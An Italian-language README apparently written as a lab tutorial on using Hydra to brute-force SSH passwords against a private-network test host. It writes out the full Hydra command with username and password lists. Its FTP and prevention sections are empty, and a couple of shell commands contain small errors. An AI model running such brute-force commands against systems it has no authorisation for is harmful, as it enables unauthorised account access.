 # **HYDRA**🐉
[Hydra](https://www.kali.org/tools/hydra/) è uno strumento usato per il cracking di password, è molto apprezzato dagli utenti kali per via
della sua presenza su diversi protoccolli di rete come:  FTP, SMB, POP3, IMAP, MySQL, VNC, SSH, HTTP(S) e altri...

## **Indice**
1. [SSH](ssh-cracking)
2. [FTP](ftp-cracking)
3. [Prevenzioni]()

## **SSH cracking**
Creo un nuovo utente + nome “adduser test_user”
```bash
adduser test_use
#Inserisci la password
```
Avvio servizio
```bash
sudo service start ssh
```
Check connessione
```bash
ssh test_user@192.168.56.102
#la connessione chiede una password... è il momento di usare hydra
```
Hydra
```bash
hydra -L usernames.txt -P passwords.txt 192.168.56.102 -t 4 ssh
```

Risultato<br>
➡️[Password trovata](https://github.com/OctavianIT/Octavian_Ceresau_HydraCrack/blob/main/Octavian_Ceresau_Hydra/Altro/ssh/Password.png)




## **FTP cracking**


